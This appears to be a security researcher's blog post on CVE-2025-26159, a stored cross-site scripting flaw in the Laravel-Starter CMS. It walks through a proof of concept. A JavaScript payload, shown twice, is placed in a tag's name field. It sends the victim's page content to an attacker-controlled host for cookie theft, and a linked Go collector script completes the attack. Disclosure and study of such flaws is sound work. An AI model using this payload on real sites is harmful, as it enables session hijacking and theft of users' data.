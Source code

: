 ```yaml
---
title: CVE-2025-26159
categories: [Deep Dives]
tags: [cve]
image: assets/img/cve-2025-laravel/banner.png
description: CVE-2025-26159 Explotation
pin: true
---
```


CVE-2025-26159 is a Stored Cross-Site Scripting (XSS) vulnerability in the [Laravel-Starter CMS](https://github.com/nasirkhan/laravel-starter), specifically within the tag name field. This vulnerability allows an attacker to inject and execute malicious JavaScript code in the browsers of users who visit the affected tag details page.

The issue impacts versions prior to v11.11.0 and arises due to improper sanitization of user input, which is stored on the server without adequate validation.

An attacker can take advantage of this vulnerability to steal cookies in the server by creating a a tag with the following payload in the name field.

```js
<script>fetch("/",{credentials:"include"}).then(r=>r.text()).then(d=>location='//127.1:9000/d='+escape(d))</script>
```
# Proof of Concept

To abuse this vulnerability we will just need control over an user with the following permissions.

![Pic]({{ '/assets/img/cve-2025-laravel/role_user.png' | relative_url }}){: .center-image }

Now let's create the malicious tag. With the user account, we can go to Admin Dashboard > Tags

![Pic]({{ '/assets/img/cve-2025-laravel/admin_dashboard.png' | relative_url }}){: .center-image }

![Pic]({{ '/assets/img/cve-2025-laravel/tag_menu.png' | relative_url }}){: .center-image }

Now, we can inject the malicious payload into the "name" field, also remember to add random data to the next fields.

```javascript
<script>fetch("/",{credentials:"include"}).then(r=>r.text()).then(d=>location='//127.1:9000/d='+escape(d))</script>
```

![Pic]({{ '/assets/img/cve-2025-laravel/malicious_tag.png' | relative_url }}){: .center-image }

Once the tag has been created, any user who visits the detailed page will execute the JavaScript code in his browser, but to get his cookies, we need to create a HTTP server, get the content of the web, decode it from url encode and search for the cookies. To make it easier, I have write this [script](https://github.com/godBADTRY/CVE-2025-26159) in Go that make all this.

![Pic]({{ '/assets/img/cve-2025-laravel/run_script.png' | relative_url }}){: .center-image }

And lastly, when the user clicks on "View details" bottom, we will get his cookies.

![Pic]({{ '/assets/img/cve-2025-laravel/tag_created.png' | relative_url }}){: .center-image }

![Pic]({{ '/assets/img/cve-2025-laravel/COOKIES.png' | relative_url }}){: .center-image }
